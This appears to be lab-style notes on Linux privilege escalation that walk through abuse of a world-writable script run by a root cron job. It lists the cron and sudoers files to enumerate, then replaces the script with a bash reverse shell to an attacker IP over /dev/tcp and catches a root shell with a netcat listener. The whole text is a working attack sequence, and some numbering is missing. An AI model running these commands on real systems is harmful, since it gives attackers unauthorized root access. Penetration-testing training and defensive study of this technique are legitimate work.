


File Permission misconfiguration
0.
Linux Smart Enumeration(lse.sh) target@debian:~$ ./lse.sh -l 1 -i | more
1. View the
cronJobs of the system-wide crontab:
target@debian:~$ cat /etc/crontab
if we cannot read /etc/crontab check also(automated tools like
lse.sh anyway will do that for us):
▪ /etc/init.d
▪ /etc/cron*
▪ /etc/crontab
▪ /etc/cron.allow
▪ /etc/cron.d
▪ /etc/cron.deny
▪ /etc/cron.daily
▪ /etc/cron.hourly
▪ /etc/cron.monthly
▪ /etc/cron.weekly
▪ /etc/sudoers
▪ /etc/exports
▪ /etc/anacrontab
▪ /var/spool/cron
▪ /var/spool/cron/crontabs/root
▪ command: systemctl list-timers --all
 The asterisks mean “every”. They refers to “minute”(m), “hour”(g), “day of month”(dom), “month”(mon), “days of week”(dow).
These are the
CronJobs.
In particular the last two are interesting because they run every minute
4. Locate the overwrite.sh file on the server
target@debian:~$ locate <cronJob>
5. Check the file's permissions and hope that it is world writable
target@debian:~$ ls -l <cronJobBinary>
Yes! It is World writable
6. Replace the contents of the <cronJobBinary> file with the following:
#!/bin/bash
bash -i >& /dev/tcp/[IpAttacker]/[port] 0>&1
To do that you can use vim
target@debian:~$ vim <cronJobBinary>
# i --> insert
#Esc --> esc from insert
#:w --> write(save)
#:q --> exit
7. Run a
netcat listener on your local machine and wait for the cron job to run.
attacker@kali:/# nc -nvlp 53
A reverse shell running as the root user should be caught:
